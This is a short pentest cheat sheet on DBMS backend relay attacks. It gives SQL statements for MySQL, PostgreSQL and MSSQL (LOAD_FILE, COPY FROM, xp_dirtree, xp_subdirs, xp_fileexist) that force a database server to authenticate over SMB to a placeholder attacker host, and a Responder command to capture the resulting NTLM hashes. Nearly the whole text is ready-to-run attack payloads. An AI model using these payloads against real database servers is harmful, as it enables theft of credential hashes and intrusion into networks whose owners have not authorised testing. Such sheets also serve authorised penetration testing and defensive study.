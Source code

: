 # 02 - DBMS Backend Relay Attack

#mitm #responder #smb #relay #ntlm #sql #sqli

## 2.1 - MySQL

```
SELECT LOAD_FILE('\\\\<attacker_IP>\\snare\')
```

## 2.2 - PostgreSQL

```
CREATE TABLE test_table(test_column TEXT);
COPY test_table(test_column) FROM '\\\\<attacker_IP>\\snare\';
DROP TABLE test_table;
```

## 2.3 - MSSQL

```
1> xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_subdirs '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_fileexist '\\<attacker_IP>\snare\'
2> go
```

- **Capture hash**

`$ sudo responder -I <interface>`

## References

- [Pwning a Shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)